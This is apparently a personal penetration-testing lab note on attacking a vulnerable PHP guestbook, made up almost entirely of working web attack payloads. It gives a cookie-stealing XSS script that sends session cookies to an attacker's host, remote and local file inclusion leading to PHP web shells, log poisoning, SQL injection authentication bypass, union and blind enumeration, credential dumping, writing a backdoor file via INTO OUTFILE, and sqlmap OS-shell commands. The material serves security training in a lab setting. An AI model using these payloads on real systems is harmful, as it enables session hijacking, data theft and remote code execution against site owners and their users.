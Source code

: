 #Webapps

##Getting Started
1. Start XAMPP and apache/mysql

2. Navigate to the host in your webbrowser (should be a guestbook application)

## XSS
The sign in page isn't filtered and so you can submit javascript which will run when someone views your comment

In this case I posted `<script>alert("XSS");</script>` which when viewed simply pops up the message "XSS"

XSS can be leveraged to do many things but as an example...

1. Create a comment with an iframe pointing to your ip `<iframe src="http://yo.ur.ip.addr:81/report" width="0" height="0"></iframe>`

2. Setup a listener on your machine `nc -lvp 81` 

3. visit the site from a victims machine and you will see a connection, you can use this to exploit the browser, gather information or grab cookies

**Grabbing Cookies**

1. Submit a comment with the following JS `<script> new Image().src="http://10.11.0.74:81/bogus.php"+document.cookie; </script>`

2. Setup a listener on your machine `nc -lvp 81` 

3. Visit the page as an admin

3. You will see that the cookie has been appended to the url your listener picks up

4. We can steal this cookie and login as the user, edit cookies using your browsers console `document.cookie = "PHPSESSID=34015asdsad08f566d00635a6e8ae98"`

## Remote File Inclusions
1. Whilst testing the website we notice that the language dropdown on the signin page appears to grab data from a file

2. We can see this on examining the source code

   ```
   if (isset( $_GET['LANG'] )) { 
     $lang = $_GET['LANG'];
   } else { 
     $lang = 'en';
   }
   include( $lang . '.php' );
   ```

3. We can see the parameters in the URL so tweaking the lang param to our own file is trivial

   `http://10.11.5.115/addguestbook.php?name=hacker&comment=test&LANG=fr&Submit=Submit`
   `http://10.11.5.115/addguestbook.php?name=hacker&comment=test&LANG=http://10.11.0.74/evil.txt&Submit=Submit`

4. Create our evil file `echo '<?php echo shell_exec("ipconfig"); ?>' >> /var/www/evil.txt`

5. Start apache `service apache2 start`

6. When we navigate to the site we can see that the script appended `.php` onto the end of our request

7. We can get around this by using a null byte (which works in php <=5.3) and causes php to ignore everything after it

   `http://10.11.5.115/addguestbook.php?name=hacker&comment=test&LANG=http://10.11.0.74/evil.txt%00&Submit=Submit`

8. Navigate again to the site and we get the output of the ipconfig command


**Notes**
Might be turned off in php.ini file look for `allow_url_fopen` and `allow_url_include`

##Local File Inclusion
Even with remote file includes turned off it's still possible to run local files and it may be possible to posion log files in order to run php of our choosing.

1. Connect to the webserver using nc `nc -nv 10.11.5.115 80` and paste `<?php echo shell_exec($_GET['cmd']); ?>`

2. Check the access log  on your victims machine to confirm you have posioned the log file 

3. We can now attempt to include the log by navigating to

    `http://10.11.5.115/addguestbook.php?name=hacker&comment=test&cmd=ipconfig&LANG=../../../../../../../xampp/apache/logs/access.log%00&Submit=Submit`

##SQL Injection (SQLi)

**Authentication Bypass**
Fairly simply hack our goal is to change a query from `SELECT * FROM USERS WHERE username="admin" AND password="XXXX"` to `SELECT * FROM USERS WHERE username="admin" or 1=1;#" AND password="XXXX"`

Once we gain control we can use limit's to ensure we only get one record if necessary

**Error Based Enumeration**
1. Test a field using `'` or `"` if you can see the errors you can glean extra information

2. Using order by you can manipulate the SQL to let you know how many columns are in the table 

    i.e at url `http://10.11.5.115/comment.php?id=738 order by 7` we run the SQL `SELECT * FROM guestbook where id = 738 order by 7` giving us the error `Unknown column '7' in 'order clause'`

3. Now that we now the number of columns in the table we can use `union all` to interegrate the data, remember that we need to return the same number of columns in our union

4. Using a basic union we will tag our columns to find out which/where they might be output

    `http://10.11.5.115/comment.php?id=738 UNION SELECT 1,2,3,4,5,6`

5. Now we can start enumerating using our union statements

    Version: `10.11.5.115/comment.php?id=738 UNION SELECT 1,2,3,4,@@version,6`
    
    User: `10.11.5.115/comment.php?id=738 UNION SELECT 1,2,3,4,user(),6`

6. In this case we are running as root so we can enumerate more heavily

    All Tables: `10.11.5.115/comment.php?id=738 UNION SELECT 1,2,3,4,table_name,6 FROM information_schema.tables`
    
    Get columns for a specific table: `10.11.5.115/comment.php?id=738 UNION SELECT 1,2,3,4,column_name,6 FROM information_schema.columns where table_name="users"`

7. Then it's just a case of dumping data of that table

    `http://10.11.5.115/comment.php?id=738%20UNION%20SELECT%201,2,name,4,password,6%20FROM%20users`

##Blind SQL Injection
Used at times you can't find errors

1. We confirm injection by first appending a true statement and then a false statement and seeing if we get different results

    ```
    10.11.5.115/comment.php?id=738 AND 1=1;# 
    10.11.5.115/comment.php?id=738 AND 1=2;#
    ```

2. It can also be confirmed using a sleep statement

    ```
    10.11.5.115/comment.php?id=738-sleep(5)
    ```

3. This can then be tied together to enumerate information out of the database

    ```
    10.11.5.115/comment.php?id=738 AND MID(@@version,1,1) = '5';#
    10.11.5.115/comment.php?id=738-IF(MID(@@version,1,1) = '5',SLEEP(5),0)
    ```

##SQL Read/Write
Using our union from before it's possible under certain circumstances to read files

**Reading**
```
10.11.5.115/comment.php?id=738 UNION SELECT 1,2,3,4,load_file("c:/windows/system32/drivers/etc/hosts"),6
```

**Writing**
```
10.11.5.115/comment.php?id=738 UNION ALL SELECT 1,2,3,4,"<?php echo shell_exec($_GET['cmd']); ?>",6 INTO OUTFILE 'c:/xampp/htdocs/backdoor.php'
```

##SQL Map
SQL map can be used to identify/exploit SQLi vulns

Uses
```
sqlmap -u http://10.11.5.115 --crawl=1
sqlmap -u http://10.11.5.115/comment.php?id=738 --dbms=mysql --dump --threads=5
sqlmap -u http://10.11.5.115/comment.php?id=738 --dbms=mysql --os-shell
```
